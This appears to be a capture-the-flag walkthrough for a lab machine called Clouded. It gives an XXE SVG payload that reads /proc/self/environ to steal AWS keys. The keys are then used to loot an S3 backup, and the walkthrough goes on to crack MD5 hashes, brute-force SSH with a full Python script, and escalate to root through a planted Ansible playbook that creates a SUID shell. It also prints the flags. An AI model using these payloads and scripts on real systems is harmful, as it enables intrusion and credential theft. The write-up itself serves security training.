






​    	 

​		<font size="10">Clouded</font>

​		1<sup>st</sup> December 2024 / Document No Dxx.xxx.xxx

​		Prepared By: dotguy

​		Machine Author: dotguy

​		Difficulty: <font color="Green">Easy</font>


# Synopsis

Clouded is an easy difficulty Linux machine that is hosting a file sharing web application which using an AWS architecture in the backend. The application allows uploading of SVG files and scans the uploaded files using a Lamba function. The Lambda function code is vulnerable to XXE as it resolves the external entities of the SVG file's XML data as a part of the scanning process. This can be exploited to retrieve the environment variables of the Lambda function which reveal the AWS creds. These creds can be used to access the S3 buckets and obtain the user credentials from a backup file. The Privilege Escalation requires us to leveragea cron job that executes all the ansible playbooks present in a user writable directory.

## Skills required

- Web Enumeration

- Linux Fundamentals

- AWS fundamentals

- XXE exploitation

- Ansible Playbook creation

  

# Enumeration

## Nmap

Let's run an `Nmap` scan to discover any open ports on the remote host.

```bash
$ nmap -p- --min-rate=1000 10.129.230.169

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## HTTP

Upon browsing to port  `80`,  we are redirected to the domain `clouded.htb`.

Let's add an entry for `clouded.htb` in our `/etc/hosts` file with the corresponding IP address to resolve the domain name and allow us to access it in our browser.

```bash
$ echo "<IP>  clouded.htb" | sudo tee -a /etc/hosts
```

Visiting `clouded.htb` reveals a file sharing web application called Clouded.


The Webapp has the functionality to upload a file to it's servers and obtain a shareable link for the file. It only a selective file extensions.



The about section mentions that the app is meant for sharing "Office files" which explain the limited supported file extensions. It also mentions that "Files are scanned for malicious content and rogue metadata." which seems interesting as the SVG file contains XML data and if the backend is parsing XML files and resolving exteneral entities , we can try to exlpoit the XXE vulnerability via this.


# Foothold

The source code the `/upload.html` page also reveals that the file is being uploaded to a Lambda function which makes sense as the uploaded files a scanned first.



Lambda functions is a part of the AWS suite and they store the AWS creds (AWS access key and AWS secret access key) in it's environment variables. 

We can curate a XXE payload file called `pwn.svg` to obtain the contents of the `/proc/self/environ` file which contains the environment variables data/

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [
<!ENTITY xxe SYSTEM 'file:///proc/self/environ'>
]>
<userInfo>
 <text>&xxe;</text>
</userInfo>

```

Upload it.



We can download the file using the shareable file URL and verify that it contains the content of the `/proc/self/environ` file.

We can obtain the necessary informatinon - 

`AWS_ACCESS_KEY` - `AKIA5M34BDN8GCJGRFFB` (usually these are 20 chars long so retrieve the first 20 chars of the text shown)

`AWS_SECRET_ACCESS_KEY` - `eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY`

`AWS_DEFAULT_REGION` - `us-east-1`




Now let's configure a new AWS profile in AWSCLI with the obtained creds.

```bash
$ aws configure --profile clouded

AWS Access Key ID [None]: AKIA5M34BDN8GCJGRFFB
AWS Secret Access Key [None]: eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUY
Default region name [None]: us-east-1
Default output format [None]: json
```

List the S3 buckets.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 ls
2024-12-02 13:55:44 uploads
2024-12-02 13:55:47 clouded-internal
```

List the content of the `clouded-internal` S3 bucket.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 ls s3://clouded-internal
2024-12-02 13:55:51      12288 backup.db
```

Copy the `backup.db` file to the local machine.

```bash
$ aws --endpoint-url http://local.clouded.htb --profile clouded  s3 cp s3://clouded-internal/backup.db .

download: s3://clouded-internal/backup.db to ./backup.db
```

We can check that this is a SQLite3 Database file.

```bash
$ file backup.db

backup.db: SQLite 3.x database, last written using SQLite version 3046001, file counter 5, database pages 4, cookie 0x3, schema 4, UTF-8, version-valid-for
```

Use [this website](https://inloop.github.io/sqlite-viewer/) to view the contents of the `.sqlite` DB file - 



It contains the credentials of 50 users (nicknamed *frontiers* in the DB).

We can check one of the password hash using [a website like this one](https://www.tunnelsup.com/hash-analyzer/), and verify that it's an MD5 password hash.

We can use the following queries to retrieve all the "password" entries from the DB to `.txt` files.

```bash
$ sqlite3 backup.db "SELECT password FROM frontiers;" > hashes.txt
```

Let's try to crack the MD5 password hashes using `hashcat`.

```bash
$ hashcat -a 0 -m 0 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: passwords.txt
Time.Started.....: Mon Dec  2 22:07:20 2024 (1 sec)
Time.Estimated...: Mon Dec  2 22:07:21 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   597.2 kH/s (0.10ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 50/50 (100.00%) Digests (total), 50/50 (100.00%) Digests (new)
Progress.........: 1024/14344384 (0.01%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> bethany
Hardware.Mon.#1..: Util: 30%
```

All 50 hashes were successfully cracked and stored into `cracked.txt`.

```bash
$ cat cracked.txt

78842815248300fa6ae79f7776a5080a:jonathan
6ebe76c9fb411be97b3b0d48b791a7c9:987654321
df53ca268240ca76670c8566ee54568a:computer
008c5926ca861023c1d2a36653fd88e2:whatever                                             
8621ffdbc5698829397d97767ac13db3:dragon 
282bbbfb69da08d03ff4bcf34a94bc53:vanessa                                              
2dccd1ab3e03990aea77359831c85ca2:cookie
cf9ee5bcb36b4936dd7064ee9b2f139e:naruto 
6b1628b016dff46e6fa35684be6acc96:summer
de1e3b0952476aae6888f98ea0e4ac11:sweety 
e1964798cfe86e914af895f8d0291812:spongebob

[** SNIP **]
```

Now we have the passwords but we don't know the usernames of the users. But it's common for users to use either their first-name or last-name as usernames.

Thus, let's export the data from the DB file into a `.txt` file with entries in the format of  - `first_name:last_name:password_hash`.

```py
import sqlite3

# Connect to the SQLite database
conn = sqlite3.connect('backup.db')
cursor = conn.cursor()

# Execute a query to fetch all rows from the "frontiers" table
cursor.execute("SELECT first_name, last_name, password FROM frontiers")

# Open a text file to write the results
with open('users.txt', 'w') as f:
    # Iterate through each row and write it to the file in the desired format
    for row in cursor.fetchall():
        first_name = row[0].lower()  # Convert first_name to lowercase
        last_name = row[1].lower()   # Convert last_name to lowercase
        f.write(f"{first_name}:{last_name}:{row[2]}\n")

# Close the database connection
conn.close()
```

The `users.txt` file looks like - 

```bash
$ cat users.txt
                                                                
jax:blackstone:0691df26da82d6eb2e5da8924628db63
colt:dray:ae0eea6eb6d63f98da42de867c47a0f8 
ember:frost:680e89809965ec41e64dc7e447f175ab
kael:stark:f63f4fbc9f8c85d409f2f59f2b9e12d5 
nova:voss:dba0079f1cb3a3b56e102dd5e04fa2af 
vira:wyler:968c58d88d981b4ee15e2c8cb1fab06d
zane:korr:a90f4589534f75e93dbccd20329ed946

[** SNIP **]
```

The output file from `hashcat` containing the password hashes and the cracked passwords aren't in the same order as in the DB; meaning that the entries in `users.txt` do not correspond to entries in `cracked.txt` **line-wise.**

Let's script it to automate the SSH brute force attempting to try every user's corresponding password with it's own first-name and last-name.

```py
import paramiko

def read_file(file_path):
    """Reads a file and returns its lines."""
    with open(file_path, 'r') as f:
        return [line.strip() for line in f.readlines()]

def create_hash_password_map(cracked_file):
    """Creates a dictionary mapping password hashes to passwords."""
    hash_password_map = {}
    for line in cracked_file:
        password_hash, password = line.split(":")
        hash_password_map[password_hash] = password
    return hash_password_map

def ssh_brute_force(host, username, password):
    """Attempts to connect to the SSH server with the given username and password."""
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(hostname=host, username=username, password=password, timeout=5)
        print(f"[SUCCESS] Login successful: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[FAILURE] Authentication failed: {username}:{password}")
        return False
    except Exception as e:
        print(f"[ERROR] An error occurred: {e}")
        return False

def main():
    # File paths
    output_file = "users.txt"
    cracked_file = "cracked.txt"
    ssh_host = "MACHINE_IP"  # Update with the actual machine IP address
    
    # Read files
    output_entries = read_file(output_file)
    cracked_entries = read_file(cracked_file)

    # Create hash-to-password map
    hash_password_map = create_hash_password_map(cracked_entries)

    # Process each entry in output.txt
    for entry in output_entries:
        first_name, last_name, password_hash = entry.split(":")
        password = hash_password_map.get(password_hash)

        if not password:
            print(f"[ERROR] Password hash not found for hash: {password_hash}")
            continue

        # Attempt to login using first_name and last_name as usernames
        ssh_brute_force(ssh_host, first_name, password)
        ssh_brute_force(ssh_host, last_name, password)

if __name__ == "__main__":
    main()
```

Run the script.

```bash
$ python3 brute.py

[FAILURE] Authentication failed: jax:bowwow 
[FAILURE] Authentication failed: blackstone:bowwow

[** SNIP **]

[SUCCESS] Login successful: nagato:alicia
```

Login in via SSH usign the obtained credentials.

```bash
ssh nagato@clouded.htb
```

The user flag can be obained at `/home/nagato/user.txt`.

```bash
nagato@clouded:~$ cat /home/nagato/user.txt
HTB{L@MBD@_5AY5_B@@}
```

# Privelege Escalation

Let's enumerate any important processes running on the box using the `pspy` utility. Upload `pspy` binary to the remote box and give it executable permissions.

```bash
python3 -m http.server 8000
```

```bash
nagato@clouded:/tmp$ wget 10.10.14.48:8000/pspy
nagato@clouded:/tmp$ chmod +x pspy
```

Run `pspy` executable.

```bash
nagato@clouded:/tmp$ ./pspy
```

The results show that a cronjob is running every 2 min that run the ansible playbook files with `.yml` extension present in the directory `/opt/infra-setup/`.



The directory `/opt/infra-setup` is writable by usergroup `frontiers` and we can see that user `nagato` is a member of the `frontiers` group.

```bash
nagato@clouded:/opt$ id
uid=1000(nagato) gid=1000(nagato) groups=1000(nagato),1001(frontiers)

nagato@clouded:/opt$ ls -l /opt/ | grep infra-setup
drwxrwxr-x 2 root frontiers 4096 Dec  2 08:44 infra-setup
```

We can create the following ansible playbook yaml file to privesc to root by copying the `bash` executable to the `/tmp` directory and assigning it the SUID bit.

`nano /opt/infra-setup/privesc.yml`

```yaml
- hosts: localhost
  tasks:
  - name: 'Hacked'
    shell: cp /bin/bash /tmp/dot; chmod 4755 /tmp/dot
```

Wait for about 2 min for the cron to kick in and then check the `/tmp` directory.

```bash
nagato@clouded:/opt$ ls -l /tmp
total 4208
-rwsr-xr-x 1 root   root   1183448 Dec  2 08:48 dot

[** SNIP **]
```

Run the exectubale with root privileges and obtain the root flag at `/root/root.txt`.

```bash
nagato@clouded:/opt$ /tmp/dot -p

dot-5.0# id
uid=1000(nagato) gid=1000(nagato) euid=0(root) groups=1000(nagato),1001(frontiers)
dot-5.0# cat /root/root.txt
HTB{H@ZY_71ME5_AH3AD}
```

